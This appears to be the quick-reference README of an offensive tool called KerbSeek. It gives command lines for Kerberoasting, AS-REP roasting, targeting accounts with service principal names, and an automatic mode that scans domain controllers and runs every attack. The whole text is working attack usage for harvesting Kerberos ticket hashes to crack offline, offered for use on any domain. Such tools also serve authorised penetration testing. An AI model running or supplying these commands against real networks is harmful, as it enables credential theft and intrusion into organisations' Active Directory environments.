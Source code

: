 # KerbSeek Quick Reference

## Quick Start

```bash
# Basic Kerberoasting (requires domain credentials)
./kerbseek.py --domain CORP.LOCAL -u user -p pass --kerberoast

# ASREPRoasting (no credentials needed)
./kerbseek.py --domain CORP.LOCAL --asreproast userlist.txt

# Auto-discovery and attack
./kerbseek.py --auto dclist.txt

# Target specific users with SPNs
./kerbseek.py --domain CORP.LOCAL -u user -p pass --spns spn_users.txt
```

## Common Commands

### Kerberoasting
```bash
# Request TGS tickets for all SPNs
./kerbseek.py -d CORP.LOCAL -u serviceacct -p pass --kerberoast

# Target specific SPNs from file
./kerbseek.py -d CORP.LOCAL -u user -p pass --spns accounts.txt

# Request tickets for specific account
./kerbseek.py -d CORP.LOCAL -u user -p pass --target-user svc-sql
```

### ASREPRoasting
```bash
# Test list of users (no pre-auth required)
./kerbseek.py -d CORP.LOCAL --asrep users.txt

# Single user ASREPRoast test
./kerbseek.py -d CORP.LOCAL --asrep-user jdoe

# Combined with port scan
./kerbseek.py --auto dc.txt --asrep userlist.txt
```

### Auto Mode
```bash
# Scan DCs and perform all attacks
./kerbseek.py --auto targets.txt -u user -p pass

# Auto with specific user list
./kerbseek.py --auto dcs.txt --asrep users.txt
```
